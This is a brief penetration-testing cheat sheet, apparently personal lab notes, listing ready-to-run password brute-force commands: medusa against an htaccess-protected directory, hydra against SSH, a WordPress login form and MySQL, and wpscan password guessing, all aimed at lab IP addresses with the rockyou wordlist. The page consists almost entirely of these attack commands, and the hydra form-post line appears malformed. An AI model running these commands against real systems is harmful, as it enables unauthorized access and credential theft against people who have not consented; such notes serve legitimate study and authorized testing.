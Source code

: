 ```yaml
---
description: /usr/share/seclists/Passwords/darkweb2017-top10000.txt
---
```


# Bruteforce

### htaccess-protected URL

<pre data-overflow="wrap"><code><strong>
</strong><strong>medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -t 50 -f (-m DIR:/admin)
</strong></code></pre>

### ssh

<pre data-overflow="wrap"><code><strong>
</strong><strong>hydra -l offsec -P /usr/share/wordlists/rockyou.txt 192.168.213.52 -s 22 ssh -vV -f -t 10
</strong></code></pre>

### http

{% code overflow="wrap" %}
```
#monitor and  copy post request and change ^USER^ and ^PASS^
#test for valid account with dummy pw then test real password
hydra 192.168.168.64 http-form-post "/wp-login.php:http://192.168.168.78/wordpress/wp-login.php:INVALID LOGIN" -l admin -P {wordlist} -vV -f

#wp
wpscan --url http://dc-2/ --passwords passwords.txt 
```
{% endcode %}

### mysql

{% code overflow="wrap" %}
```

hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.168.88 mysql -t 4
```
{% endcode %}
